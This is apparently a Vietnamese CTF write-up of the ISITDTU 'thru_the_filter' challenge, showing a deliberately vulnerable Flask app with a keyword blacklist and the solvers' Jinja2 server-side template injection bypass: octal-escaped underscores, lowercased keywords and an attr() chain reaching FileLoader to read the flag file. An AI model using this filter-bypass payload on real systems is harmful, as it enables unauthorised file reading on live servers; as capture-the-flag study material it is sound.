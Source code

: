 # thru_the_filter
**Solver: phulelouch & goldensang**

### 1. Context
Nhìn sơ qua các file nhé
*docker-entrypoint.sh*
```shell
#!/bin/sh

# Generate random flag name
random_flag_name="flag_$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 10 | head -n 1).txt"

# Specify flag content
flag_content="ISITDTU{test_flag}"

# Move flag file to root directory
echo "$flag_content" > /"$random_flag_name"

# Set permissions for flag file
chmod 744 /"$random_flag_name"

# Get the user
user=$(ls /home)

# Set permissions for /app directory
chmod 740 /app/*

# Change directory and run Flask
cd /app && flask run -h 0.0.0.0 -p 8080
```
*Dockerfile*
```shell
FROM python:3.10-slim-bullseye
LABEL auther_template="khanhhnahk1"


RUN sed -i 's/deb.debian.org/mirrors.ustc.edu.cn/g' /etc/apt/sources.list && \
    sed -i 's/security.debian.org/mirrors.ustc.edu.cn/g' /etc/apt/sources.list
RUN apt-get update 

# install flask
RUN python3 -m pip install -i https://pypi.tuna.tsinghua.edu.cn/simple \
    flask

# Copy the source code and startup script to the root directory
COPY ./src/ /app
COPY ./service/docker-entrypoint.sh /

# expose port
EXPOSE 8080
RUN groupadd -r thru_the_filter && useradd -r -g thru_the_filter thru_the_filter
RUN echo "ISITDTU{test_flag}"> /app/flag.txt
RUN chmod 440 /app/flag.txt
RUN chown -R root:thru_the_filter /app


USER thru_the_filter

WORKDIR /app
ENTRYPOINT ["/bin/bash","/docker-entrypoint.sh"]
```
*app.py*
```python
from flask import Flask, request, render_template_string,redirect

app = Flask(__name__)
def check_payload(payload):
    blacklist = ['import', 'request', 'init', '_', 'b', 'lipsum', 'os', 'globals', 'popen', 'mro', 'cycler', 'joiner', 'u','g','args', 'get_flashed_messages', 'base', '[',']','builtins', 'namespace', 'self', 'url_for', 'getitem','.','eval','update','config','read','dict']
    for bl in blacklist:
        if bl in payload:
            print(bl)
            return True
    return False
@app.route("/")
def home():
    if request.args.get('c'):
        ssti=request.args.get('c')
        if(check_payload(ssti)):
            return "HOLD UP !!!"
        else:
            return render_template_string(request.args.get('c'))
    else:
        return redirect("""/?c={{ 7*7 }}""")


if __name__ == "__main__":
    app.run()

```

Nhìn sơ qua app thì ta có thể thấy được, flow chạy của application sẽ như sau:
- Build application với Dockerfile với image là:  python:3.10-slim-bullseye
- Dockerfile sẽ trỏ tới docker-entrypoint.sh
- docker-entrypoint.sh sẽ chạy file app.py dùng Flask.

Observation từ các file docker nói chung:
- những cái màu mè từ phải docker-entrypoint.sh có thể bỏ qua, flag dc lưu ở /app/flag.txt như trong file Dockerfile, chủ yếu là distraction, những cái màu mè ở file docker-entrypoint.sh thì làm mọi ng distract, nếu có RCE thì may ra làm theo hướng exploit cái đó dc :v còn không thì nên focus vô.
- file flag dc set quyền 440, nghĩa là chỉ owner của file với group dc trao quyền mới đọc được, nghĩa là phải exec code từ server-side, và tìm cách đẩy lên browser để mà ae mình lấy flag -> ý tưởng SSTI
- trong lúc làm bài, có ý tưởng làm XSS, nhưng code exec ở phía client-side, nên cũng no-hope.

Phân tích *app.py*:
- Xài Flask, và có một checkpoint check blacklist trong string, chỉ cần match string là fail
- Và blacklist khá gắt, nên phải tìm cách bypass từng cái một
- render_template_string() là nơi có thể exploit nhất, đặc biệt với SSTI, giờ chỉ cần tìm payload phù hợp
- đọc thêm SSTI ở: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md

Tóm tắt SSTI ở bài này:
- Cơ chế hoạt động là nó xài Jinja String Template để render HTML, nói nôm na là 1 file template HTML, nó có những syntax để mình bỏ biến vô, nhưng rất hạn chế.
- Payload để prove SSTI work với bài này mà mình với anh Phú xài: `http://34.124.244.195:1338/?c={{7*7}}`
- blacklist block hết các hàm phổ biến, nên phải mò kinh thánh một hồi mới mò ra được các thứ nó work

Cách mình với anh Phú xây dựng payload:
```
http://34.124.244.195:1338/?c={{7*7}}

Dựa trên phần Jinja2 - Filter bypass kinh thánh, thì tụi mình test thử payload này

{{request|attr('application')()}}
Mà nó chặn request rồi, mà tụi nó không chặn string nên payload nó thành như vầy

{{ ''.__class__.__mro__[2].__subclasses__()}}

Nhưng gặp phải blacklist _, [, ] và cả class, sau một hồi mình mò, thì nhận ra là combine 2 tụi nó lại, tụi mình có thể forge payload nó nhin như thế này:
{{'' | attr('asdfsdaf')()}}

Thì nó chuyển về xử lý string hết, và attr() ko bị block
- Để solve _ thì tụi mình có thể convert nó qua %x5f, %X5f, và bí một hồi thì mới nhận ra chuyển qua octa cũng được =)) nên thành \137
- Có được insights này thì tụi mình nhận ra là convert những ký đặc biệt bị block qua octa, và những từ bị block thành dạng 'ABC' | lower (này search chatgpt với google ra dc syntax của Jinja, syntax tụi nó vậy)

'ABC' | lower => 'abc'
'\137' => '_' 
Rồi với những insights này thì việc còn lại là dò theo payload, convert nó qua định dạng không bị block, ban đầu tụi mình thử exploits hàm Popen, mà nó bủh quá, anh Phú tìm 1 hồi ra được cái hàm FileLoader trong hệ thống của python

Payload:
http://34.124.244.195:1338/?c={{''|
attr('\137\137CLASS\137\137'|lower)|
attr('\137\137MRO\137\137'|lower)|
last|
attr('\137\137SUBCLASSES\137\137'%20|%20lower()|
attr('\137\137GETITEM\137\137'%20|%20lower)(118)("/ETC/PASSWD","/ETC/PASSWD")|
attr('GET\137DATA'%20|%20lower)("FLAG\056TXT"|lower)}}

Tóm tắt cơ chế hoạt động, thì python nó có chỗ lưu các biến, hàm global hoặc ngoài context của class, cái này mọi người đọc.
Thì mò một hồi, ra được cái hàm này :v đấm phát ăn luôn flag
b'ISITDTU{tough_times_create_tough_guys!@@%#0@}\n'
```
